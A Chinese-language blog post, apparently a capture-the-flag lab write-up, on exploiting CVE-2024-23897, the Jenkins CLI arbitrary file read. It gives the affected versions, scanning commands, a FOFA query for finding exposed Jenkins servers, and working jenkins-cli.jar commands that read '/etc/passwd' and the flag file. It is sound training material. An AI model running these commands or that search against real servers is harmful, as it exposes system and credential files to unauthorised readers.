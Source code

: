 layout: post
title: "CVE-2024-23897任意文件读取漏洞"
date:   2024-10-11
tags: [靶场]
comments: true
author: VR2050
toc: true

没事儿玩了玩i春秋的免费靶场,i春秋的会员有点贵,所以,就看了看免费的头一个看到的就是CVE-2024-23897

## 靶场介绍

jenkins 2.441及更早版本，以及LTS 2.426.2及更早版本没有禁用其CLI命令解析器的一个功能，该功能会将参数中'@'字符后跟的文件路径替换为该文件的内容，允许未经身份验证的攻击者读取Jenkins控制器文件系统上的任意文件

待会儿搜一艘看看啥漏洞

## 打点

dirsearch 扫了扫:

```bash
dirsearch -u 8.147.132.32:19652
```

没啥有用的信息,扫到个robots.txt,么有啥价值的东西

![1728653021962](/images/2024/1728653021962.png)

nmap扫描(开放很多端口,之后再说)

```bash
nmap ip -Pn -A 
```

## 访问网站看看


![1728653423667](/images/2024/1728653423667.png)

抓包看看,之后试试爆破(弱口令试了试没用)


之后搜了搜CVE-2024-23897

[可以看看这位大佬的漏洞复现](https://blog.csdn.net/2301_80127209/article/details/139777834?fromshare=blogdetail&sharetype=blogdetail&sharerId=139777834&sharerefer=PC&sharesource=qq_72825267&sharefrom=from_link)

## 介绍

[jenkins](https://so.csdn.net/so/search?q=jenkins&spm=1001.2101.3001.7020)一个开源的、用于方便[代码管理](https://so.csdn.net/so/search?q=%E4%BB%A3%E7%A0%81%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)、部署的基于web的平台，用于提高团队开发效率（生产力）

### 影响版本

版本<= Jenkins 2.441、版本<= LTS 2.426.2

### fofa语法

header="X-Jenkins" || banner="X-Jenkins" || header="X-Hudson" || banner="X-Hudson" || header="X-Required-Permission: hudson.model.Hudson.Read" || banner="X-Required-Permission: hudson.model.Hudson.Read" || body="Jenkins-Agent-Protocols"

## 复现

下载http://url/[jnlpJars/jenkins-cli.jar](http://xxx/jnlpJars/jenkins-cli.jar "http://xxx/jnlpJars/jenkins-cli.jar")(刚才没有扫到(bushi))

```shell
java -jar jenkins-cli.jar -s http://8.147.132.32:19652 -http help 1 "@/etc/passwd"
```

```shell
java -jar jenkins-cli.jar -s http://8.147.132.32:19652 -http help 1 "@/flag" 
```

只能看到一部分不过flag能够看到

![1728654427588](/images/2024/1728654427588.png)

## 总结

我在想是不是这样做还不够,光获取flag还不够,还没有拿去到shell,还需要再努力

